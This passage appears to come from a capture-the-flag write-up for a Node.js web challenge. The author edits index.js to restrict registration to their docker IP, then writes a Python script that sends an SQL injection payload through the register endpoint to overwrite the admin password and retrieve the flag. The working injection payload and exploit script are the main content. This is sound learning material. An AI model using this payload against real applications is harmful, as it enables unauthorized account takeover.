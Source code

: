 ```js
});
```

So lets change the code again for testing. I return the admin's password to the initial value that I do not know, and then I update the index.js code to look for my docker ip on my host machine:

**changing index.js back**
```js
INSERT INTO users (username, password) VALUES ('admin', '${ crypto.randomBytes(32).toString('hex') }'); 
```

**Getting docker ip**
```bash
└─$ ip a |grep docker|grep 'inet '
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0

```

**changing index.js to target my docker ip**

```js
router.post('/register', (req, res) => {

	if (req.socket.remoteAddress.replace(/^.*:/, '') != '172.17.0.1') {
		return res.status(401).end();
	}
```

Now I restart the application I begin to test for SQLi. The goal isn't to find the admin password, but to change it from the crazy long generated one, to admin.

If I run my python script now, I can see that I can no longer get the flag:

```bash
└─$ python tinker.py              
{"message":"You are not admin"}
```

So lets edit it and add another function that first performs SQLi and then tries to get the flag:

```python
import requests

url = "http://127.0.0.1:1337/"
username = "admin"
password = "admin"
payload = "pwn') ON CONFLICT (username) DO UPDATE SET password = 'admin';"
encoded_payload= payload.replace(" ", "+")	


def SQLi():
	headers =headers = {'Content-Type': 'application/x-www-form-urlencoded'}
	sqli = requests.post(url+"register", headers=headers, data=f"username={username}&password={encoded_payload}")
	return(sqli.text)


def get_flag():
	headers = {'Content-Type': 'application/x-www-form-urlencoded'}
	flag = requests.post(url+"login", headers=headers, data=f"username={username}&password={password}")
	return(flag.text)


SQLi()
print(get_flag())
```

